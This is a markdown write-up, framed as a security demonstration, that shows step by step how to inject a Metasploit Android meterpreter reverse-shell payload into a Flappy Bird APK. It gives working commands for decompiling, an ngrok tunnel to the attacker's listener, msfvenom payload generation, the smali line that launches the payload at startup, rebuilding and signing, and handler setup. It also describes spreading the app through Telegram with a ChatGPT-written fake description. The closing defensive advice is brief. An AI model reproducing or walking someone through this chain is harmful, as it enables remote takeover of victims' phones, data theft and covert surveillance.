

# Android APK Malware Injection

Roberto Tittoto

## Executive Summary

This report documents a cybersecurity demonstration showcasing the process of injecting malicious payloads into legitimate Android applications (APKs). The demonstration illustrates how attackers can compromise mobile applications and establish unauthorized remote connections to victim devices.

## Methodology Overview

**The demonstration follows a systematic approach to APK manipulation:**

1. APK decompilation and analysis
2. Payload generation and preparation
3. Malicious code injection
4. Application recompilation and signing
5. Social engineering distribution
6. Remote access establishment

## Technical Implementation
### 0. Setup
Before proceeding with the APK manipulation demonstration, it is essential to establish a proper testing environment with all necessary tools and prerequisites.
#### Required Tools and Platform

- Kali Linux Virtual Machine: Primary attack platform containing pre-installed penetration testing tools including the Metasploit Framework
- APKTool: Android application reverse engineering tool for decompiling and recompiling APK files
- Jarsigner: Java Archive Signing tool for digitally signing Android applications
- Ngrok: Secure tunneling service for exposing local servers to the internet
- Telegram Channel: Social engineering distribution platform for malicious APK deployment

### 1. APK Decompilation

For this demonstration, a Flappy Bird APK downloaded from APKpure.com was utilized as the target application. The decompilation process was carried out using APKTool, a reverse engineering tool for Android applications.

##### Command executed:

```apktool d FlappyBird.apk -o app_decoded```

**This command extracts the APK contents, including:**

- AndroidManifest.xml (application permissions and components)

- Smali code (Dalvik bytecode representation)

- Resources and assets

- Application metadata

### 2. Network Infrastructure Setup

#### Ngrok Tunnel Configuration

To establish a connection pathway from the victim device to mine attack infrastructure, I configured Ngrok to create a secure tunnel. Ngrok provides a public endpoint that forwards traffic to our local attack machine.

##### Command executed:

```ngrok tcp 4444```

Command's output:


#### Ngrok Tunnel Operation Details:

When executing the ```ngrok tcp 4444``` command, a secure connection is established between the local computer and Ngrok's servers. This process creates a tunneling mechanism that operates as follows:

1. **Public Service Exposure**: Ngrok initiates a procedure that publicly exposes any TCP service listening on port 4444 of the local computer to the Internet.
2. **Dynamic Address Assignment**: The service provides a public address in the format ```tcp://X.tcp.ngrok.io:YYYYY```, where:
 - ```X``` represents a randomly assigned hostname by Ngrok servers
 - ```YYYYY``` represents a randomly assigned port number by Ngrok servers

3. **Tunnel Establishment**: A secure tunnel is established between the local computer and Ngrok’s servers. The Ngrok client receives incoming traffic through this tunnel and forwards it locally to port 4444 on the machine executing the command.
This setup creates a bidirectional communication channel, where external traffic sent to the public Ngrok endpoint is seamlessly forwarded to the local service.

**NAT Traversal Capability**: This service enables the creation of virtual connections between two devices even when both have private IP addresses, effectively bypassing Network Address Translation (NAT) restrictions.

In our demonstration, TCP traffic directed to the address ```6.tcp.eu.ngrok.io:16690``` is automatically transmitted by Ngrok to port 4444 of the attacker's computer, creating a seamless communication channel that bypasses typical network security barriers.




### 3. Payload Generation

#### Msfvenom Payload Creation

Using Metasploit's msfvenom tool, I generated a malicious Android payload configured to establish a reverse TCP connection to our Ngrok endpoint.

##### Command executed:

```msfvenom -p android/meterpreter/reverse_tcp LHOST=6.tcp.eu.ngrok.io LPORT=16690 -o payload.apk```

##### Payload decompilation:

```apktool d payload.apk -o payload_decoded```

This generates the necessary Smali code and resources required for the reverse shell functionality.

### 4. Malicious Code Injection

#### AndroidManifest.xml Modifications

**I modified the target application's AndroidManifest.xml to include the necessary permissions for network communication and system access:**
```
<uses-permission android:name="android.permission.INTERNET" />
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE" />
<uses-permission android:name="android.permission.CHANGE_WIFI_STATE" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
```
Permissions were copied from the payload's AndroidManifest.xml file to ensure full functionality of the injected malicious code.

#### Smali Code Integration

1. **Metasploit folder integration**: Copied the entire com/metasploit/ directory from the payload's decompiled structure to the target application's directory structure.

2. **Activity modification**: Modified the main activity file (com/unity3d/player/UnityPlayerActivity.smali) to trigger the malicious payload during application startup.

Code injection location: Within the onCreate method

```invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V```

This ensures the malicious payload executes immediately when the application launches.

### 5. Application Recompilation and Signing

#### APK Rebuilding

```apktool b app_decoded -o mod.apk```

#### Digital Signature Application

**Since Android requires all applications to be digitally signed, I applied a self-signed certificate:**

```jarsigner -keystore /home/roberto/app/mykey.keystore -storepass qwerty mod.apk myalias```

Note: In a real attack scenario, attackers might use stolen certificates or create convincing fake certificates to avoid detection.

### 6. Social Engineering Distribution

#### Distribution Vector

**The modified APK was distributed through a simulated social engineering campaign using a Telegram channel.**

I easily generated a fake description using ChatGPT and download an image from the official website


This demonstrates how attackers commonly distribute malicious applications through:

- Unofficial app stores

- Social media platforms

- Messaging applications

- Email attachments

- Compromised websites

- Installation Process


**When victims attempt to install the APK:**

Android displays a warning about installing from unknown sources

Users must manually enable "Install unknown apps" permission

The application requests the previously injected permissions

Upon approval, the malicious payload becomes active

### 7. Attack Infrastructure and Remote Access

#### Metasploit Handler Configuration

**The attack infrastructure utilizes Metasploit's multi/handler module to receive incoming connections:**

```msfconsole -q -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4444"```

#### Connection Establishment

**Once the victim launches the infected application:**

The application work normally meanwhile the injected payload executes automatically

A reverse TCP connection is established through the Ngrok tunnel

The attacker gains Meterpreter shell access to the device

Full device compromise is achieved

## Security Implications

#### Attack Capabilities

**Once the connection is established, attackers can:**

- Access device files and personal data

- Activate device cameras and microphones

- Monitor user activities and keystrokes

- Install additional malware

- Use the device as a pivot point for network attacks

- Exfiltrate sensitive information


## Conclusion

This demonstration effectively illustrates how easily legitimate Android applications can be weaponized for malicious purposes.

It underscores the fact that Android users are not inherently protected from malware hidden within modified APKs. Instead, users must take an active role in identifying suspicious behavior and understanding the risks of installing applications from untrusted or unofficial sources.

In particular, the modified APK in this case requests permissions that are clearly excessive and unnecessary for a simple game like Flappy Bird. This should raise immediate red flags for any attentive user. Awareness and critical thinking remain essential tools in preventing such attacks.


## References and Further Reading

https://apktool.org/

https://ngrok.com/docs/universal-gateway/tcp/

https://github.com/rapid7/metasploit-framework/tree/master/documentation/modules/payload/android/meterpreter

I took inspiration from some youtube videos:

https://www.youtube.com/watch?v=a78hgTbwO8A&list=PLImXEmIWS83emJW4XsnX1xtIlYNjbVB_s&index=2

https://www.youtube.com/watch?v=AT-1_uJjA7M&t=117s

https://youtu.be/nhirxy6tWzA?si=X3-YK0VhH-zZo3Yo

I used as support

http://chatgpt.com/
